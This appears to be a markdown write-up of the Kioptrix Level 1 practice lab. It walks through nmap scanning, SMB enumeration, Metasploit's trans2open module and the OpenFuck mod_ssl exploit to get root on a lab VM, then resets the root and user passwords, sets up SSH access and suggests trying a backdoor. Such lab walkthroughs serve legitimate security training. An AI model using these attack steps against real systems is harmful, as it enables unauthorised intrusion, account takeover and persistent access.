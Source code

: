 # Kioptrix

## Step 0

`sudo su`

## Step 1: find ip

1. `ifconfig`

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.110.131  netmask 255.255.255.0  broadcast 192.168.110.255
        inet6 fe80::20c:29ff:fe74:24c3  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:74:24:c3  txqueuelen 1000  (Ethernet)
        RX packets 172546  bytes 30987516 (29.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 188193  bytes 20812007 (19.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2340  bytes 206848 (202.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2340  bytes 206848 (202.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

My IP -> 192.168.110.131

2. `nmap -sP 192.168.110.1/24`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 08:45 EST
Nmap scan report for 192.168.110.2
Host is up (0.0010s latency).
Nmap scan report for 192.168.110.131
Host is up (0.000060s latency).
Nmap scan report for 192.168.110.134
Host is up (0.0029s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.60 seconds
```

possible IP -> 192.168.110.134

3. `nmap -sV -p- -O 192.168.110.134 `
    - -O -> also show OS version
    - -p- ->all ports deep scan

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 09:07 EST
Nmap scan report for 192.168.110.134
Host is up (0.0014s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:4A:7B:0E (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.54 seconds
```

-   we dont care about rpcbind ports, ssh can't be hacked
-   so the ports to consider:
    -   80/tcp http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
    -   139/tcp netbios-ssn Samba smbd (workgroup: MYGROUP)
    -   443/tcp ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

4. Optional: `nbtscan 192.168.110.1/24` -> will also work cause there is an SMB port open

## Step 2: search for vulnerabilities

1.  open the site in browser to check stuffs (both http and https)
2.  `enum4linux 192.168.110.134`

    -   enumerate all the stuffs kali can access from the IP
    -   Important stuffs

        -   `Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none`
            -   usernames on SMB client (not the linux computer)
        -   ```
             KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
             platform_id     :       500
             os version      :       4.5
             server type     :       0x9a03
            ```
        -   Share Enumeration Information

        ```
                        Sharename       Type      Comment
                ---------       ----      -------
                IPC$            IPC       IPC Service (Samba Server)
                ADMIN$          IPC       IPC Service (Samba Server)
        Reconnecting with SMB1 for workgroup listing.

                Server               Comment
                ---------            -------
                KIOPTRIX             Samba Server

                Workgroup            Master
                ---------            -------
                MYGROUP              KIOPTRIX
        ```

3.  metasploit auxillary tests

    1. run `auxiliary/scanner/smb/smb_version` to get samba version (cause smb has a lot of exploits)
        - Samba 2.2.1a
        - exploit from googling (https://www.cvedetails.com/cve/CVE-2004-1154/)
            - 10.0 -> means we can get direct root access
        - (https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)
    2. `search trans2open`

    ```
    Matching Modules
    ================

    #  Name                              Disclosure Date  Rank   Check  Description
    -  ----                              ---------------  ----   -----  -----------
    0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
    1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
    2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
    3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)
    ```

        - redhat can be freebsd or linux -> in nmap we saw (Red Hat/Linux) so we `use 1`
        - `show info`
        - set options and `run`
        - take long time -> `Ctrl + C`

## Step 3: Manual Exploit

-   (found by googling) github links always better -> (https://github.com/heltonWernik/OpenLuck)
-   follow github steps
- Redhat Linux  Apache 1.3.20 -> 0x6a and 0x6b -> tey second version as it will be newer
-   `./OpenFuck 0x6b 192.168.110.134 443 -c 40`

## Step 4: inside OS
1. `whoami` -> should be root -> you have root access
2. `/bin/bash -i` -> open a tty shell
3. `passwd john` -> update the password (1a2b3c)
4. `passwd root` -> update the password (1a2b3c)

## Step 5: in Kioptrix
1. login using neww password and usewrname
2. you have new mail -> `history` to check the command to find `mail command`
3. `mail` and check the mails
4. Congratulations

## Step 6: setup ssh (cause ssh port is open in the Box)
1. `ssh root@192.168.110.134`

2. error fix -> https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0

3. command -> `ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -c aes128-cbc root@192.168.110.134`

4. enter password

5. you can now access the computer directly from the kali


## Further 
1. There is a Kioptrix Level 2, try it
2. try to setup backdoor
